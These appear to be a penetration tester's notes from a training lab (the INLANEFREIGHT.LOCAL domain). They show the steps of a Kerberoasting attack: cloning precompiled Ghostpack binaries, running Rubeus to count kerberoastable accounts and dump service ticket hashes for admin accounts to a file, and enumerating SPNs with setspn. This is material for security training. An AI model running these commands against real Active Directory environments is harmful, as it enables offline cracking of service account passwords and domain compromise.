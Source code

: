    DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-2D-03-F0-45-00-50-56-B9-0A-8B
   DNS Servers . . . . . . . . . . . : 127.0.0.1
   NetBIOS over Tcpip. . . . . . . . : Enabled
   Connection-specific DNS Suffix Search List :
                                       htb

git clone https://github.com/r3motecontrol/Ghostpack-CompiledBinaries.git
cd Ghostpack-CompiledBinaries/

c:\Rubeus.exe kerberoast /stats

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0 


[*] Action: Kerberoasting

[*] Listing statistics about target users, no ticket requests being performed.
[*] Target Domain          : INLANEFREIGHT.LOCAL
[*] Searching path 'LDAP://DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 7


 ------------------------------------- 
 | Supported Encryption Type | Count |
 ------------------------------------- 
 | RC4_HMAC_DEFAULT          | 7     |
 ------------------------------------- 

 ---------------------------------- 
 | Password Last Set Year | Count |
 ---------------------------------- 
 | 2022                   | 7     |
 ---------------------------------- 

c:\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap /outfile:type.hash

SPN MSSQLSvc/SQL01.inlanefreight.local:1433


setspn.exe -Q */*


CN=DC01,OU=Domain Controllers,DC=INLANEFREIGHT,DC=LOCAL
	Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/DC01.INLANEFREIGHT.LOCAL
	ldap/DC01.INLANEFREIGHT.LOCAL/ForestDnsZones.INLANEFREIGHT.LOCAL
	ldap/DC01.INLANEFREIGHT.LOCAL/DomainDnsZones.INLANEFREIGHT.LOCAL
	DNS/DC01.INLANEFREIGHT.LOCAL
	GC/DC01.INLANEFREIGHT.LOCAL/INLANEFREIGHT.LOCAL
	RestrictedKrbHost/DC01.INLANEFREIGHT.LOCAL
	RestrictedKrbHost/DC01
	RPC/03d2eace-bb3d-467e-a00a-eab0dbfaa065._msdcs.INLANEFREIGHT.LOCAL
	HOST/DC01/INLANEFREIGHT
	HOST/DC01.INLANEFREIGHT.LOCAL/INLANEFREIGHT
	HOST/DC01
	HOST/DC01.INLANEFREIGHT.LOCAL